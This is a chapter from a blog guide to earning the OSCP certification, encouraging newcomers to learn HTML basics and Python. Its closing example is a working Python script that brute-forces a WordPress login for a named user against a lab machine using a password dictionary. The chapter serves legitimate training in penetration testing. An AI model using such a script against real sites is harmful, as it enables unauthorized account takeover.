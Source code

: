 ```yaml
---
layout: default
---
```

# How to earn your OSCP certification (2024)
## 3. Improve your programming skills

Let's start with a perhaps obvious premise, but one that if not clarified could discourage those approaching the goal of obtaining an OSCP certification (or similar) without coming from other IT sectors.

You don't need to become a full-fledged programmer to work in cybersecurity, but as often happens, having more tools in your arsenal can greatly simplify life when you need to deal with code (often written by others, which isn't always a positive aspect).

So where to begin? As I've often read and heard from professionals much more experienced than me, there's no right starting point when it comes to IT knowledge - every piece learned can prove useful when we least expect it. However, it's also true that some topics are more recurring than others, and perhaps for this reason, they're worth exploring if our background on this subject is a blank page.

Personally, I believe that as an initial step, one of the most useful approaches is understanding how a web page works. Again, for most people reading this chapter, this will all be very simple and basic, but I like to think that even someone completely new to the cybersecurity field can become passionate about it. Moreover, you never know - even those with some experience might pick up nuances less tied to the technical aspect but still interesting from a social engineering perspective.

Let's start gradually, let's open any web page:

![example.com.png](/assets/images/earn-oscp/cap3/example.com.png)

By pressing CTRL+U on the web page, you can examine its code.

```
<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;
        
    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 2em;
        background-color: #fdfdff;
        border-radius: 0.5em;
        box-shadow: 2px 3px 7px 2px rgba(0,0,0,0.02);
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        div {
            margin: 0 auto;
            width: auto;
        }
    }
    </style>    
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is for use in illustrative examples in documents. You may use this
    domain in literature without prior coordination or asking for permission.</p>
    <p><a href="https://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>
```

Now, the goal of this chapter is not to study or delve deep into the code, but to understand why it's useful to have some basic knowledge. As you can see, the HTML code of the page is divided into TAGS, which are container elements that hold the parts that need to be displayed on the page and assign them certain attributes.

The code section that handles giving specific aesthetic attributes to page elements is the one contained in the <style></style> TAGS, which in this case also specify the language used to draw the page, namely CSS.

Let's divert the discussion for a moment to return to a key point later - for this very simple web page, 46 lines of code are needed. A website is generally composed of multiple HTML pages, dedicated CSS pages, and JavaScript files to dynamically modify the page's behavior based on user interactions. We can easily understand that the number of lines of code increases exponentially as the complexity of the website we're visiting increases.

This is true for web applications that we can access through browsers, as well as for local software we use daily. Personally, I find this site very interesting to get a clear sense of scale for what we're talking about:

<a href="https://informationisbeautiful.net/visualizations/million-lines-of-code/" style="font-size: 18px">Codebases - Millions of lines of code</a>

![2552_Lines_of_code_Dec18_FB.png](/assets/images/earn-oscp/cap3/2552_Lines_of_code_Dec18_FB.png)

This premise is necessary to understand what we're dealing with most of the time when we try to interact with code written by others. The rule suggests that good code should be well-commented, but those who have already dealt with experiences of this type know well that this rarely happens. Being able to navigate through code, for example of a web page, even without understanding in detail what it does, can lead to interesting discoveries of useful information left in the comments by those who wrote it, for example.

The example below is a simple one, but I have encountered situations like this even in actively running applications (you can view the web page code by pressing F12 - browser dev tools are a very useful tool to learn how to leverage).

![example-web-page.png](/assets/images/earn-oscp/cap3/example-web-page.png)

Regarding "classic" software code, it's very useful to start experimenting by getting your hands dirty firsthand. I believe my opinion aligns with the common one, which is to start playing with Python, a rather simple language for learning the basics that could also prove useful in the initial phases of scripting for performing penetration tests. For example, in the case below, I had recently started playing with laboratory machines provided by various dedicated platforms (like Hack the Box, Try Hack Me etc.), and I wanted to experiment by writing a login script for a WordPress page, using a list of hypothetical passwords for the username "james" obtained from previous reconnaissance operations.

```
import requests
import sys

url='http://10.10.110.100:65000/wordpress/wp-login.php'
data={
        'log': 'james',
        'pwd': '',
        'wp-submit': 'Log+In',
        'redirect_to': 'http://10.10.110.100:65000/wordpress/wp-admin/'
        }
i=1

dictionary=open('/home/kali/PenTest/VAPT-DANTE/wordpress_dictionary', 'r')

for line in dictionary:
    data['pwd']=line.strip()
    r=requests.post(url, data=data, allow_redirects=False)
    print("Searching password in dictionary...", str(i), " of 508")
    if r.status_code == 302:
        print(line.strip())
        sys.exit()
    i=i+1
dictionary.close()
```

This is meant to be just an example and, while it's nothing too complex, my advice is to approach the fundamental concepts gradually. There are many books and video tutorials that explain Python basics very well - it won't be difficult to start writing your first lines of code.

<div class="row">
  <div class="column3"><a href="/pages/blog/earn-oscp/2-note-taking-method" style="font-size: 18px">Back<< 2. Review Your Note-Taking Method</a></div>
  <div class="column1"></div>
  <div class="column3"><a href="/pages/blog/earn-oscp/4-report" style="font-size: 18px" >Next>> 4. Learn how to write a good report</a><div>
</div>